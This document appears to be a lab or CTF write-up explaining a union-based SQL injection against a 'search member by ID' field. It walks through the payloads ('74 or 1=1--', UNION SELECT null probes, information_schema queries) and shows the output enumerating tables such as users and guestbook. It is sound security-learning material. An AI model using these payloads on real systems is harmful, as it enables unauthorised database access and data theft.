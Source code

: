 ### Title: <span style="color:blue">SQL Injection Vulnerability in Members Input Field</span>

**Location:** `page=member`

**Step 1:** try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

**Result:**

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1
```

**Step 2 :**
we write to the search field `74 or 1=1` or `74 or 1=1--` we can replace 74 by any other random id.
the input have a label:` SEARCH MEMBER BY ID` so the original query may be something similar to :

```sql
SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = "id_number"

```

the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sent to the database for execution. so the resulted query is something like

```sql
 SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = 74 or 1=1
```

In this case, the injected part '74 OR 1=1--' causes the query to return all rows from the users table because '1=1' is always true. If 'id=74' is not found, all the rows will be returned as 'OR 1=1' allows this to happen. The '--' at the end is used to comment out the rest of the original query to avoid syntax errors (it's not necessary to use the hyphens).
**Result:**

```sql
 result
 ID: 74 or 1=1
 First name: one
 Surname : me
```

> [!NOTE]
> the result show that the original select statement, query over two columns and this is a very important information to use in the sql query injection.

**Step 3 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order. Syntax example:

```

```sql

74 or 1=1 UNION SELECT null; -- The used SELECT statements have a different number of columns.
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- The used SELECT statements have a different number of columns.
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: db_default
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: users
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: guestbook
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: list_images
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: vote_dbs
Surname : BASE TABLE

```

the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table (i.e., not a view or a system table).

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

**Resources:**

information_shema: https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
